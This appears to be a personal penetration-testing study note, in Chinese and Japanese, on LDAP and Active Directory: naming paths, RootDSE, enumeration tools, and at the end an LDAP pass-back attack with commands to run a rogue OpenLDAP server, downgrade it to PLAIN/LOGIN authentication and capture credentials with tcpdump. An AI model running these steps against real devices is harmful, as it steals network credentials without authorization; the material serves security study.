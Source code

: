 ```yaml
---
tags:
  - IT/网络
  - 渗透/内网
  - 渗透/信息收集
---
```


## 概念

Lightweight Directory Access Protocol，轻量级目录访问协议。

LDAP具有简单的树结构，不能像数据库那样具有复杂的结构。由于负载较轻，适合管理系统账户。

- LDAP 身份验证是与 AD 集成的第三方（非 Microsoft）应用程序的一种流行机制。
- 用来访问/操作AD内的对象的协议。AD用[[LDAP#LDAP命名路径|LDAP命名路径]]来表示对象在AD内的位置索引。

1. BindRequest (认证)
	- Bind就是LDAP登陆的意思——[[LDAP#Bind DN|BindDN]]
2. SearchRequest (LDAP搜索)




## 认证流程

![[eb4c5b6b4d3e747145cc635e08bb1768.png]]

就是把用户数据放在LDAP服务器上，通过LDAP服务器上的数据对用户进行认证处理。

实现原理之一：对每一个登陆请求，会发送本地的用户、密码给LDAP服务器，然后在LDAP服务器上进行匹配，然后判断是否可以通过认证。



## LDAP命名路径

LDAP树：  
![[Pasted image 20240816124653.png]]

- sn：surname（姓氏）

### DN（distinguished Name）：标识名称，LDAP完整路径。

DN 有三个属性，分别是：

- DC (Domain Component)：域名组件。DNS域名的每个元素。如“DC=.com”“DC=.panasonic”
- OU (Organizational Unit)：组织单位，最多4级。定义组的策略。是一种容器，理解为文件夹，可以分组、管理其他对象。

- 用于组织和分组条目，以便更好地管理目录。
- 通常用于创建层次结构，如 OU=Users、OU=Groups。
- 通常不直接用于标识具体的实体，而是用于容纳 CN。

- CN (Common Name)：通用名称，即对象的名称。一般为用户名（可以中文）或计算机名

- 通常用于标识具体的实体，如用户、计算机、服务等。
- 在特定 OU 内，CN 应该是唯一的。

#### Bind DN

LDAP的登陆用户。

#### Base DN

LDAPサービスへログインした後、どの OU 配下の情報を扱うかを示すものです。`suffix`とも呼ばれます。

#### RDN

是DN中每一个用逗号分隔的表达式。

---
## 搜索工具

- [[ldapsearch]]
- [[powershell#Get-ADUser]]
- dsquery
- LDP.exe：普通域主机默认没有，需要安装，不过这是微软的工具。在cmd中输入 `ldp` 启动，和 `AD Explorer` 类似
- DirectorySearcher 对象（ #OSCP ）：`[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`
- [pyldapsearch](https://github.com/fortalice/pyldapsearch)
- [ldeep](https://github.com/franc-pentest/ldeep)

> [https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)

## 用BloodHound分析结果

1. BloodHound compatible な形式にデータを変換([BOFHound](https://github.com/fortalice/bofhound))
2. BloodHoundにimport
3. BloodHoundで分析：[bloodhound-gui](https://bloodhound.readthedocs.io/en/latest/data-analysis/bloodhound-gui.html)

---
## RootDSE

> The top of the directory information tree (DIT) on each DSA is the root of the tree.

在每个DSA的DIT的顶端，都会有**一个特殊的条目称为Root DSE**。这个条目包含与DSA有关的特定信息，如支持的LDAP版本、扩展操作、域名信息（`namingContexts`属性）等。

- DSE: DSA-specific entry
- DSA：**Directory System Agent**，它是LDAP目录服务的一个核心组件，负责处理LDAP客户端的请求，并管理目录信息树（DIT）中的数据。

### Search with nmap

> we should check the nmap output for the [RootDSE](https://www.ibm.com/docs/en/zos/3.1.0?topic=considerations-root-dse) and any potential hostname.

```bash
sudo nmap -Pn --script ldap-rootdse.nse $target_ip
```

### Search with [[ldapsearch]]

![[ldapsearch#RootDSE]]

---


## GC

![[Pasted image 20240816125026.png]]

用途：很多时候，用户或应用程序不知道目标对象的 DN 或哪个分区可能包含该对象。全局编录 (GC) 允许用户和应用程序在给定目标对象的一个或多个属性的情况下在 Active Directory 域树中查找对象。






## 安装（Win）

- AD DS的开关命令：`dcpromo`。转换该服务器的角色（域控or成员）
- DC会将自己扮演的角色注册到DNS，以便让其他PC能够通过DNS找到这台DC





## 攻击手法

### LDAP Pass-back Attacks

在如打印机等设备的配置界面，通常预留了凭据——但是密码不可见时，将认证传到我们自己的LDAP服务器。

#### Hosting a Rogue LDAP Server 托管恶意 LDAP 服务器

##### 安装OpenLDAP

`sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`

##### 安装完后重新配置

`sudo dpkg-reconfigure -p low slapd`

#### 降级验证机制：PLAIN 和 LOGIN

##### 创建配置文件

```
# cat olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

##### 应用配置

`sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`

##### 验证配置

```
└─$ ldapsearch -LLL -x -H ldap:// -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: LOGIN
supportedSASLMechanisms: PLAIN
```

#### 捕获LDAP验证

`$ sudo tcpdump -SX -i breachad tcp port 389`